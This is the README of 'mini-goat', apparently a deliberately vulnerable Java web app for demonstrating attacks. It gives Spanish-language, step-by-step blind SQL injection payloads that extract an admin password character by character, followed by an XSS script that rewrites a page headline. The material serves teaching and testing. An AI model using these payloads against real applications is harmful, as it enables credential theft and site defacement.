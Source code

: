 # mini-goat

A simple Java application to test and demonstrate SQL Injections.

## Installation

It's a web-app made with SpringMVC and Postgres. Should be easily setup.

## Injections

[http://localhost:8080/mini-goat/usuarios/listado.do?filtro=](http://localhost:8080/mini-goat/usuarios/listado.do?filtro=)

1.. comprobamos que es un like:

    a
    b

2.. verificamos que podemos obtener un verdadero distinguible

    pipo' and '1' like '1

3.. verificamos que podemos obtener un falso distinguible

    pipo' and '1' like '2

4.. verificamos que la tabla se llama "usuarios"

    pipo' or exists (select 1 from usuarios) and '1' like '1

4.1. por una falla de configuración, si erramos el nombre de la tabla, tenemos un error

    pipo' or exists (select 1 from usuario) and '1' like '1

5.. verificamos que hay un campo password

    pipo' or exists (select 1 from usuarios where password = password) and '1' like '1

6.. verificamos que existe efectivamente el usuario admin

    pipo' or exists (select 1 from usuarios where password = password and username = 'admin') and '1' like '1

7.. vemos el largo de la contraseña

    pipo' or exists (select 1 from usuarios where length(password) > 0 and username = 'admin') and '1' like '1

8.. vemos con qué letra empieza la contraseña

    pipo' or exists (select 1 from usuarios where substring(password, 1, 1) < 'z' and username = 'admin') and '1' like '1

9.. vemos con qué letra sigue la contraseña

    pipo' or exists (select 1 from usuarios where substring(password, 1, 1) = '1' and substring(password, 2, 1) < 'z' and username = 'admin') and '1' like '1

10.. así sucesivamente, hasta sacar todos los caracteres de la contraseña

    pipo' or exists (select 1 from usuarios where substring(password, 1, 1) = '1' and substring(password, 2, 1) = '2' and substring(password, 3, 1) = '3' and substring(password, 4, 1) = '4' and username = 'admin') and '1' like '1

## XSS

[http://localhost:8080/mini-goat/noticias/leer.do?id=1](http://localhost:8080/mini-goat/noticias/leer.do?id=1)

    <script>document.getElementsByTagName("h1")[0].innerHTML = "Obama perdonó la deuda con Argentina";</script>

